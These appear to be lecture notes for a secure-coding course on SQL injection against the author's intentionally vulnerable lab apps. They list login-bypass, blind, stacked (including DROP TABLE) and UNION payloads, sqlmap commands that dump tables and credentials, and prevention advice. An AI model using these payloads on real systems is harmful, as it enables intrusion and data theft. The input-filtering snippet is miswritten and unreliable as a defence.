 
## Security Testing (OWASP ZAP  Getting Started Guide)

<https://github.com/zaproxy/zaproxy/wiki/Downloads>

ZAP active scan

## SQL Injection (PHP)
https://github.com/celalceken/InsecureWebApplicationProject

Switch to 1.2.0 SQL Injection

Bypassing Login Screens

Payload: A2' or '1'='1';--
Payload: A2' or '1';--
Payload: A1';--

Payload: admin'#  // (switch to mysql)

## SQL Injection (Spring Boot)
https://github.com/celalceken/spring-boot-examples/tree/master/insecurewebapplication

Payload: admin2' or '1'--

### Blind SQL Injection 

<https://www.owasp.org/index.php/Blind_SQL_Injection>

Blind SQL (Structured Query Language) injection is a type of SQL Injection attack that asks the database true or false questions and determines the answer 
based on the applications response. This attack is often used when the web application is configured to show generic error messages, but has not mitigated 
the code that is vulnerable to SQL injection.

When an attacker exploits SQL injection, sometimes the web application displays error messages from the database complaining that the SQL Query's syntax 
is incorrect. Blind SQL injection is nearly identical to normal SQL Injection, the only difference being the way the data is retrieved from the database. 
When the database does not output data to the web page, an attacker is forced to steal data by asking the database a series of true or false questions. 
This makes exploiting the SQL Injection vulnerability more difficult, but not impossible.

Switch to 1.2.0 SQL Injection

In the Login Page

Payload: asdf' AND 3930=(SELECT 3930 FROM PG_SLEEP(5)) AND 'gRqx'='gRqx


### Stacked SQL Injection
Prepared statements are preveting multiple query execution //﻿"cannot insert multiple commands into a prepared statement"



https://github.com/celalceken/SecureSoftwareDevelopment/blob/master/Lecture3/1.2.PHPExamples/8JSONPHP.php

Payload: '; insert into table1 values( 5, 'toX', 'toY', 4 );--

Payload: ';drop table "table2"; --

### Union Injections 
Basically you can poison query to return records from another table.

https://github.com/celalceken/SecureSoftwareDevelopment/blob/master/Lecture3/1.2.PHPExamples/8JSONPHP.php

A' UNION select adi, soyadi from "AkademikPersonel";--

### sqlmap

sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. 

https://github.com/celalceken/InsecureWebApplicationProject
Switch to 1.3.1 Switch to MySQL DB -> SQL Injection


For details : <https://github.com/sqlmapproject/sqlmap/wiki/Usage>


sqlmap -u "http://192.168.56.106/InsecureWebApplicationProject/Dogrula.php" --data "personelNo=a&sifre=a" --dbs --level=5 --risk=3 --flush-session
sqlmap -u "http://192.168.56.103/InsecureWebApplicationProject/Dogrula.php" --data "personelNo=a&sifre=a" -D obs --tables
sqlmap -u "http://192.168.56.103/InsecureWebApplicationProject/Dogrula.php" --data "personelNo=a&sifre=a" -D obs -T AkademikPersonel --dump

--flush-session for new session(rescan)...


> sqlmap -u "http://192.168.56.103/InsecureWebApplication/Dogrula.php" --data "personelNo=a&sifre=a" -f (fingerprint) vt sürümü
root@kali:~# sqlmap -u "http://192.168.56.103/InsecureWebApplication/Dogrula.php" --data "personelNo=a&sifre=a" -f

> sqlmap -u "http://192.168.56.103/InsecureWebApplication/Dogrula.php" --data "personelNo=a&sifre=a" --current-user

--hostname, --current-db, --users, --passwords, --privileges, --roles


## SQL Injection Prevention

https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet

a. Input filtering
    if ($userSession->login(filter_var($_POST['personelNo'], FILTER_SANITIZE_STRING), $_POST['sifre'], FILTER_SANITIZE_STRING))

b. Query Parameterization:
    In order to mitigate SQL injection, untrusted input should be prevented from being interpreted as part of a SQL command.
    The best way to do this is with the programming technique known as ‘Query Parameterization’. In this case, the SQL statements
    are sent to and parsed by the database server separately from any parameters.

c. Prepared statement

d. Stored Procedures

e. Encoding


